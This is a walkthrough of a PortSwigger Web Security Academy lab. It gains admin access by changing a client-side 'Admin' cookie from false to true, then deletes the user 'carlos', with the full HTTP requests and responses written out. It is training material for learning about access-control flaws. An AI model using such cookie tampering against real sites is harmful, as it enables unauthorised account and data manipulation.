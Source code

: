 ## Lab: User role controlled by request parameter
This lab has an admin panel at `/admin`, which identifies administrators using a forgeable cookie.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution
Start by logging in with the credentials we have. After logging in we send the request to the repeater.

Request:
```http
GET /my-account?id=wiener HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=false; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Here we see a cookie named "Admin" set to false. Let's change this to true and try to access ```/admin```.
Request:
```http
GET /admin HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=true; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3115

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>User role controlled by request parameter</title>
    </head>
    <body>
**********SNIP***********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>
**********SNIP***********
    </body>
</html>

```
Here we find the delete endpoint again.

Request:
```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=true; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![](Solved_the_Lab.png)

## Alternative:
We could also, after login, change the cookie value in the browser to get access to the Admin panel link and delete the user through the browser.
![](Cookie_Browser_Alternative_Lab_2.png)